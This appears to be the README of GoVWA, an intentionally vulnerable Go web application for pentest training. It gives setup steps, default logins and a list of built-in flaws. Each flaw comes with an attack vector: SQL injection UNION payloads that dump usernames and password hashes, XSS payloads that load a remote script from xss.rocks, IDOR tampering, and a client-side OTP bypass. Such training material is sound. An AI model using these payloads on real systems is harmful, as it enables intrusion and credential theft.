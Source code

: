 # GoVWA

GoVWA (Go Vulnerable Web Application) is a web application developed to help the pentester and programmers to learn the vulnerabilities that often occur in web applications which is developed using golang. Vulnerabilities that exist in GoVWA are the most common vulnerabilities found in web applications today. So it will help programmers recognize vulnerabilities before they happen to their application. Govwa can also be an additional application of your pentest lab for learning and teaching.

This was formerly known as <https://github.com/0c34/govwa>, package name
`govwa`, however this doesn't sit well with how Go code is commonly
organised, therefore it was renamed here to
`github.com/ShiftLeftSecurity/Helloshiftleft-internal/helloshiftleftgo`,
which is also where we store it on GitHub.

# How To Install GoVWA

## Dependencies

- Golang
- MySQL

Set up MySQL as you like, e.g. with MySQL 8 something like this might suffice to have a working account for GoVWA to use:

```
USE mysql;
CREATE USER 'govwa@'localhost' IDENTIFIED BY 'password';
GRANT ALL ON *.* TO 'govwa@'localhost';
FLUSH PRIVILEGES;
```

If successfully installed you would have a directory `go` in your home directory. That directory has three subdirectories (`bin`, `pgk`, `src`). This project should be cloned into `src/github.com/ShiftLeftSecurity/Helloshiftleft-internal`.

Using Go modules dependency resolution should be automatic, simply `GO111MODULE=on go build` should take care of updating the dependencies for you.

Otherwise run the following to install the remaining Go dependencies:

```
go get github.com/go-sql-driver/mysql
go get github.com/gorilla/sessions
go get github.com/julienschmidt/httprouter
```

## GoVWA config

Open the file `./confic/config.json` and update the relevant fields (probably `username` + `password`) according to your mysql installation. You will most likely also want to add a new database with `create database govwa`.

## Run GoVWA

`go run app.go`

Open `http://192.168.56.101:8082/` to access GoVWA and follow the setup instructions to create database and tables

GoVWA users:

|uname|password|
|-----|--------|
|admin|govwaadmin|
|user1|govwauser1|

# Exploits

1. SQLi 1 (`/sqli1`):

User input through cookie `Uid`. Injects user input into WHERE clause of SELECT statement.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

2. SQLi 2 (`/sqli2`):

User input through url parameter `uid`. Injects user input into the same statement as 1.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

Also: It is possible to extract other user's information by changing the uid.

3. XSS 1 (`/xss1`):

User input through search term input field. Any input given is rendered into a `<b>` tag without sanitation and therefore executed.
Example: `<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

Can also be used with POST.

4. XSS 2 (`/xss2`):

The url parameter `uid` is parsed into a script tag as part of an assignment. One can therefore call functions for example.
Example: `$.getScript("http://xss.rocks/xss.js")`

It is again possible to extract other user's info by changing the uid.

5. IDOR 1 (`/idor1`):

The form parameter `uid` can be used to alter profiles of other users. As long as the cookie `Uid` and the form field `uid` match the request is taken care of and changes are written to the db.

6. IDOR 2 (`/idor2`):

The vulnerability is the same as in `/idor1` but with and added "security" feature. One has to send the MD5 hash of the given uid in order to be allowed to write to other user's profiles.

Disclaimer: The code behaves somewhat weird by breaking if you change the number of characters in `name` or `city` without adding/removing the same amount of characters in `number`.

7. CSA (`/csa`):

No real functionality. Except a green/red bar popping up depending on the response from the backend. If you use a proxy to tamper with the response you get a green bar regardless of your input.

The correct OTP is a value that has the MD5 hash of `a587cd6bf1e49d2c3928d1f8b86f248b`.
